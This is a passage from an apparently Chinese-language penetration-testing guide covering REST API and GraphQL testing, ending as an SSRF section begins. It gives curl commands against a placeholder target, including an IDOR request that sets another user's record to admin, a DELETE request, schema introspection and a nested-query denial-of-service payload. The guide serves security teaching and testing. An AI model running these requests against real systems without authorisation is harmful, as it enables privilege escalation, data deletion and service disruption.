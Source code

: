 **8.1.2 API測試方法**：

```bash
# REST API測試
# GET請求
curl -X GET "https://api.target.com/users/123" -H "Authorization: Bearer TOKEN"

# POST請求
curl -X POST "https://api.target.com/users" \
     -H "Content-Type: application/json" \
     -d '{"name":"test","email":"test@test.com"}'

# PUT請求（測試IDOR）
curl -X PUT "https://api.target.com/users/124" \
     -H "Authorization: Bearer TOKEN" \
     -d '{"admin":true}'

# DELETE請求
curl -X DELETE "https://api.target.com/users/123" \
     -H "Authorization: Bearer TOKEN"
```

**8.1.3 GraphQL測試**：

```bash
# 內省查詢（Introspection）
curl -X POST https://target.com/graphql \
     -H "Content-Type: application/json" \
     -d '{
       "query": "query IntrospectionQuery { __schema { queryType { name } mutationType { name } } }"
     }'

# 查詢所有類型
curl -X POST https://target.com/graphql \
     -H "Content-Type: application/json" \
     -d '{
       "query": "{ __schema { types { name } } }"
     }'

# 深度查詢攻擊
curl -X POST https://target.com/graphql \
     -H "Content-Type: application/json" \
     -d '{
       "query": "{ users { posts { comments { replies { author { posts { comments } } } } } } }"
     }'
```


### 8.2 Server-Side Request Forgery (SSRF)

**8.2.1 SSRF基本概念**：

SSRF是一種漏洞，攻擊者可以濫用伺服器功能來存取或操作伺服器無法直接存取的資源。
